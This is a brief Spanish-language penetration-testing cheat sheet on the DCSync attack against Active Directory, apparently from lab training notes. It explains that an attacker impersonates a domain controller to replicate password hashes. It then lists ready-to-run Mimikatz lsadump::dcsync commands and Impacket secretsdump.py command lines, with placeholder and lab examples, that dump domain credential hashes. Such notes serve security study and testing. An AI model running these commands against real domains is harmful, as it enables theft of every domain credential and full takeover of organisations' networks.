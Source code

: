 # DC Sync Attack

## Explicación rápida
- Replica las credenciales de un dominio, el atacante pretende ser un DC pidiendole al otro DC "hey, soy un DC02, dame tus hashes".
- Ciertos usuarios como los DC tienen parmisos para replicar datos, entonces imita el comportamiento de otro DC para solicitar esta data.
- Entonces un atacante puede obtener hashes almacenados en el DC utilizando un usuario como **krbgt** o de cualquier usuario con privilegios altos.


## Mimikatz
- `privilege::debug`
- `lsadump::dcsync /domain:NOMBRE_DOMINIO /user:USUARIO`
- `lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator`

## Secrets Dump
- La herramienta envía una solicitud al DC para replicar los objetos del dominio y así extraer hashes.
- `secretsdump.py <dominio>/<usuario>:<contraseña>@<IP_del_DC>`
- `secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5`